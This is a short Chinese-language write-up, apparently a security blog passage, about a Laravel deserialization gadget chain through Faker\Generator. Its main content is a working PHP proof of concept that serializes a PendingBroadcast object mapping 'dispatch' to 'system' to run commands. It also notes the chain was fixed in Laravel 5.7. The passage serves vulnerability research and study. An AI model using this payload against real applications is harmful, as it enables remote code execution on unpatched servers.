

由于`getFormatter()`方法中的`$this->formatters[$formatter]`是可控的并直接 return 回上一层，因此可以利用该可控参数来进行命令执行 RCE 操作

```php
<?php
namespace Illuminate\Broadcasting {
    use Faker\Generator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Generator();
            $this->event = 'whoami';
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        public function __construct(){
            $this -> formatters = ['dispatch' => 'system'];
        }
    }
}
namespace {
    $a = new Illuminate\Broadcasting\PendingBroadcast();
    echo urlencode(serialize($a));
}

```

我发现Laravel5.7版本增加了wakeup方法修复了这条链子，原来这条链子是远古链子啊。。。



我发现这个框架的链子还是蛮多的，这里分享师傅的一篇文章https://www.anquanke.com/post/id/258264
